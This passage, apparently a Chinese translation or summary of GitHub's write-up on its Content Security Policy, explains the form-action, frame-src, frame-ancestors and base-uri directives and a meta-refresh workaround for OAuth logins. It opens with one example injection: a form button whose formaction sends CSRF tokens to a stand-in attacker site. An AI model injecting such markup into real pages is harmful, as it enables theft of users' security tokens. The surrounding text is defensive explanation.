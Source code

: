 ```
<button type="submit" form="version-form" formaction="https://some_evil_site.com/log_csrf_tokens">Click Me</button>

```

通过限制`form-action`到特定的 domain list，可以减低所有通过 form 表单提交的方法来窃取敏感信息的可能性。

但是GitHub测试后发现，当用户在使用 Github OAuth 来登录第三方应用时，因为限制了`form-action`，会导致登陆失败。

来看一下OAuth登录的过程，用户访问类似如下链接`https://github.com/login/oauth/authorize?client_id=b6a3dd26bac171548204`，如果用户之前已经授权过该应用，就会跳转到应用程序的网站，如果没有则会弹框让用户先允许授权。授权的过程会向 GitHub.com 提交一个`POST`请求，然后302跳转到应用的网站。在这个过程中，form表单时提交到 GitHub.com的，但是响应是跳转到第三方网站，因为第三方网站的domain不在`form-action`的列表里，跳转会blocked。

那么是否要移除`form-action`的限制呢？GitHub想到使用 "meta refresh" 跳转，类似这样：

```
<head>      
    <title>The Tudors</title>      
    <meta http-equiv="refresh" content="0;URL='http://thetudors.example.com/'" />    
</head>  

```

[meta refresh](https://www.w3.org/TR/WCAG20-TECHS/H76.html)是用来在客户端进行跳转的一种技术（用js跳转也可以）。通过避免302跳转，CSP只会检查表单提交的请求进行，而不会检查之后的跳转，从而解决了这个问题。

GitHub在文中还提到，他们最终会为`form-action`添加 dynamic source 支持。

child-src/frame-src
-------------------

Inline frames (iframes) 是很强的安全边界。每个 frame 都受到同源策略的限制，就如同在单独的window 或 tab 打开一样。但是有一些情况下，比如攻击者能够在 GitHub.com 上注入一个frame，frame能够加载任意网站的内容，如果这个网址需要返回一个401的响应码（HTTP Authentication），而此时浏览器不会处理内嵌的contexts，就会弹框要求用户输入帐号密码。对于大多数有安全意识的人都知道GitHub.com不会使用 basic authentication 或 JavaScript`prompt`dialogs，但总有些人不知道，就傻乎乎的输入帐号密码了。

Firefox 浏览器支持一些frame的sandbox指令来防止这样的情况，如`allow-modals`，但是只对某些特定的 sandboxed frames 有效。在CSP中也没有相似的指令来限制某个frame是否能够弹框。目前唯一的缓解措施就是限制能够被framed的 domain。

目前GitHub的策略是只允许自己的渲染域（render domain），比如用来渲染[STL files](https://help.github.com/articles/3d-file-viewer/),[image diffs](https://help.github.com/articles/rendering-and-diffing-images/), 和[PDFs](https://help.github.com/articles/rendering-pdf-documents/)。不久前，GitHub在使用[automatic generator](https://help.github.com/articles/creating-pages-with-the-automatic-generator/)来生成预览页面的地方加入了`self`。这里GitHub也提到，在将来，会使用之前提到的动态策略（dynamic policy）来取代。

frame-ancestors
---------------

这个指令是用来取代`X-FRAME-OPTIONS`header的，可以缓解点击劫持（clickjacking ）和其它。目前该指令没有得到浏览器广泛的支持，GitHub 在所有的响应中同时设置了`frame-ancestors`指令和`X-FRAME-OPTIONS`header。目前默认的策略是阻止所有 framing GitHub内容的行为 。和`frame-src`类似，这里是用了动态策略，在[预览生成的GitHub页面](https://help.github.com/articles/creating-pages-with-the-automatic-generator/)的地方添加了`self`。同时我们也允许通过 iframes 来 framing 分享[Gists](https://gist.github.com/)的页面。

base-uri
--------

比较少见，如果攻击者能够注入`base`标签到页面的head中，就可以改变所有relative URLs 。通过将其限制为`self`， 我们可以保证攻击者不能够修改所有的relative URLs 和 将带有CSRF tokens的form提交到恶意的站点。
